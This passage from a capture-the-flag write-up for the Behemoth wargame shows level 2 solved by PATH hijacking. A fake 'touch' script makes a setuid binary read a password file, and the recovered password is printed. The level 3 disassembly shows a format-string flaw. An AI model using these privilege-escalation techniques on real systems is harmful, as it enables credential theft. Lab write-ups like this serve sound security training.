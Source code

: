 Ah, I see! So it tries to create a file named after its ```PID```. Luckily for us, ```touch``` is called without an absolute path. The only reason we cannot get the ```system``` call to work is because we don't have write permissions to ```/behemoth``` so let's switch to a directory where we can do whatever we want.

```
behemoth2@behemoth:/behemoth$ cd /tmp
behemoth2@behemoth:/tmp$ mkdir me
behemoth2@behemoth:/tmp$ cd me
behemoth2@behemoth:/tmp/me$ echo "cat /etc/behemoth_pass/behemoth3" > touch
behemoth2@behemoth:/tmp/me$ chmod +x touch
behemoth2@behemoth:/tmp/me$ PATH=/tmp/me:$PATH /behemoth/behemoth2
nieteidiel
```

## Level 3 ##
Looks like we have to do with some input validation... again.

```
behemoth3@behemoth:~$ cd /behemoth
behemoth3@behemoth:/behemoth$ ./behemoth3
Identify yourself: It's a Me, Mario!
Welcome, It's a Me, Mario!

aaaand goodbye again.
```

Neither ```strace```, nor ```ltrace``` will yield us any useful information. Let's look at the disassembly!

```
 0804847b <main>:
 804847b:       55                      push   ebp
 804847c:       89 e5                   mov    ebp,esp
 804847e:       81 ec c8 00 00 00       sub    esp,0xc8
 8048484:       68 60 85 04 08          push   0x8048560
 8048489:       e8 a2 fe ff ff          call   8048330 <printf@plt>
 804848e:       83 c4 04                add    esp,0x4
 8048491:       a1 c0 97 04 08          mov    eax,ds:0x80497c0
 8048496:       50                      push   eax
 8048497:       68 c8 00 00 00          push   0xc8
 804849c:       8d 85 38 ff ff ff       lea    eax,[ebp-0xc8]
 80484a2:       50                      push   eax
 80484a3:       e8 98 fe ff ff          call   8048340 <fgets@plt>
 80484a8:       83 c4 0c                add    esp,0xc
 80484ab:       68 74 85 04 08          push   0x8048574
 80484b0:       e8 7b fe ff ff          call   8048330 <printf@plt>
 80484b5:       83 c4 04                add    esp,0x4
 80484b8:       8d 85 38 ff ff ff       lea    eax,[ebp-0xc8]
 80484be:       50                      push   eax
 80484bf:       e8 6c fe ff ff          call   8048330 <printf@plt>
 80484c4:       83 c4 04                add    esp,0x4
 80484c7:       68 7e 85 04 08          push   0x804857e
 80484cc:       e8 7f fe ff ff          call   8048350 <puts@plt>
 80484d1:       83 c4 04                add    esp,0x4
 80484d4:       b8 00 00 00 00          mov    eax,0x0
 80484d9:       c9                      leave
 80484da:       c3                      ret
 80484db:       66 90                   xchg   ax,ax
 80484dd:       66 90                   xchg   ax,ax
 80484df:       90                      nop
```
